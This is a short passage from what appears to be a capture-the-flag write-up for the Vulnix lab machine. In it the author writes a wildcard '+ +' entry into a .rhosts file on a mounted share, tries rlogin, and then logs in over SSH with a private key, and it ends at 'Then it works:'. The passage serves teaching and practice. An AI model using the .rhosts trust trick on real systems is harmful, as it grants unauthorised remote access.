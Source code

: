 ![evidence](./static/12-rlogin-config.png)

And that is an easier way to set up remote login, when I test it, and I create the `~/.rhosts` file
```shell
$ vulnix@xxxx:/mnt/vulnix$ echo '+ +' >> .rhosts
```
And I give it the proper permissions:
```shell
$ vulnix@xxxx:/mnt/vulnix$ chmod 644 .rhosts
```
And I use the `rlogin` command:
```shell
$ vulnix@xxxx:/mnt/vulnix$ rlogin vulnix -l vulnix
```
Then it keeps asking me for the password. and here I was stuck for a while, when I tried to connect with `SSH` with the user `vulnix`, and I use the `ssh` command:
```shell
$ vulnix@xxxx:/mnt/vulnix$ ssh -i .ssh/id_rsa vulnix@vulnix
```
Then it works:
